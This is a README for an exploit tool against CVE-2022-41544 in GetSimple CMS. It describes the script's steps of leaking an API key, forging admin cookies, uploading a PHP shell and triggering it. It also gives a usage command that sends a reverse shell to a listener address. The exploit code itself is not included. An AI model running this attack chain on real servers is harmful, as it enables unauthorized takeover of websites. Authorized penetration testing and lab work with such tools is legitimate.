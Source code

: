 # CVE-2022-41544 Exploit Script

This repository contains a script to exploit CVE-2022-41544 vulnerability in GetSimple CMS. The script performs several steps to check for vulnerabilities, leak API keys, set cookies, obtain CSRF tokens, upload a shell, and trigger the shell.

## Changes and Improvements

1. **Deprecation Warning Handling**: Removed the deprecated `telnetlib` import as it was not necessary for the script's functionality.
2. **Enhanced Error Handling**: Added more robust error handling for HTTP requests and XML parsing.
3. **Improved User Feedback**: Provided detailed feedback for each step to help users understand the script's progress and any issues encountered.
4. **Input Validation**: Ensured that the user inputs for the target, path, and credentials are validated.
5. **Documentation and Comments**: Added comments and documentation to improve code readability and usability.

## Usage

1. **Clone the Repository**:
    ```bash
    git clone https://github.com/n3rdyn3xus/CVE-2022-41544.git
    cd CVE-2022-41544
    ```

2. **Install Dependencies**:
    Ensure you have Python 3 installed along with the `requests` library.
    ```bash
    pip3 install requests
    ```

3. **Run the Script**:
    ```bash
    python3 CVE-2022-41544.py <target> <path> <ip:port> <username>
    ```

    - `<target>`: The target domain or IP address.
    - `<path>`: The path to the GetSimple CMS installation.
    - `<ip:port>`: The IP and port for the reverse shell.
    - `<username>`: The admin username for the GetSimple CMS.

    Example:
    ```bash
    python3 CVE-2022-41544.py 10.129.42.249 /CMS 10.10.14.8:4444 admin
    ```
![image](https://github.com/user-attachments/assets/ddf85b4b-664c-4f88-8692-356cbe38b447)

![image](https://github.com/user-attachments/assets/31b056df-9df9-452f-94f2-a7ebd96c1576)


## Script Overview

### Functions

- `print_the_banner()`: Displays a stylized banner using ASCII art.
- `get_version(target, path)`: Checks if the target version of GetSimple CMS is vulnerable.
- `api_leak(target, path)`: Attempts to retrieve an API key from an authorization XML file.
- `set_cookies(username, version, apikey)`: Sets cookies required for further requests based on the retrieved API key.
- `get_csrf_token(target, path, headers)`: Extracts a CSRF token necessary for uploading a shell.
- `upload_shell(target, path, headers, nonce, shell_content)`: Uploads a PHP shell to the target server.
- `shell_trigger(target, path)`: Triggers the uploaded shell to establish a reverse shell connection.

### Main Function

The `main()` function orchestrates the entire process by calling the above functions in sequence to exploit the CVE-2022-41544 vulnerability.

## Author

This script was developed by **h3x0v3rl0rd**.

## Disclaimer

This script is provided for educational purposes only. Unauthorized access to systems is illegal and unethical. Use this script responsibly and only on systems you have explicit permission to test.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.


